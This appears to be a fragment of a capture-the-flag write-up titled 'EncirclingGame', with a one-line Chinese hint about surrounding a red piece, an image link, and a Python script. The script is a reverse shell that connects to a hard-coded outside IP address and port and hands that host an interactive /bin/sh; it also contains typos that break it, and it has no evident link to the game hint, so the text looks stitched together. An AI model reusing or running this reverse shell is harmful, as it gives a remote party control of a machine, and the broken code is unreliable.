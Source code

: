 ## EncirclingGame
将红色赌起来就可以了

![](attachments/Pasted%20image%2020240817102058.png)

```
#!/usr/bin/python
import os,subprocess,socket

s=socket.socket(socket.AF_INET,socket,SOCK_STREAM)
s.connect((49.232.206.37,12345))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```